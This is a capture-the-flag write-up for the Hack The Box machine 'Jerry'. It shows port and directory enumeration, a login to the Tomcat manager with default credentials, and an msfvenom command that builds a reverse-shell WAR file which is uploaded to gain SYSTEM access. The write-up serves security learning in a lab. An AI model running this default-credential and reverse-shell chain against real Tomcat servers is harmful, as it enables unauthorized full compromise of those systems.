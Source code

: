 # Jerry
![info-card](./info_card.png)

## Initial Enumeration

Our initial enumeration doesn't leave much to the imagination here, our quick nmap scan only returns one open port.

```bash
nmap -sV 10.10.10.95
```

![Nmap Results](./nmap.png)

Naturally we assume Tomcat is our target for this box. On tomcat instances, you can reach the management console at `/manage`, but if you didn't know that already, you can find that using gobuster:

```bash
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50
```

![Gobuster Results](./gobuster.png)

For the login we treat it like any other application, google for default credentials. Doing this brought me to a great github repository for default credentials where I found [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) page. Using the credentials `tomcat:s3cret` from that list gives us access. 

## Execution

Looking at the management console, we see something that catches our eye as a path to execution: 

![WAR Upload Form](./war_upload_form.png)

Know that we know we can deploy `war` files to the server, we can generate a reverse shell with `msfvenom`:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=$(tunip) LPORT=4443 -f war > evil.war
```

{% hint %}
`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`
{% endhint %}

{% hint style=alarm %}
If you happen to work out of a folder shared between your kali VM and windows like I do, windows defender will nuke this file as soon as you generate it. So it's best to do this somewhere else (I just generated it in `/tmp`)
{% endhint %}

After uploading this file we can see it in the list of running applications:

![Evil War Application](./evil_war.png)

Clicking on the link to our malicious application triggers the reverse shell. It just happens that Tomcat is run as `nt authority/system` in this case, so we now have full access to the system and are able to read the user and root flags:

![User and Root Flags](./flags.png)
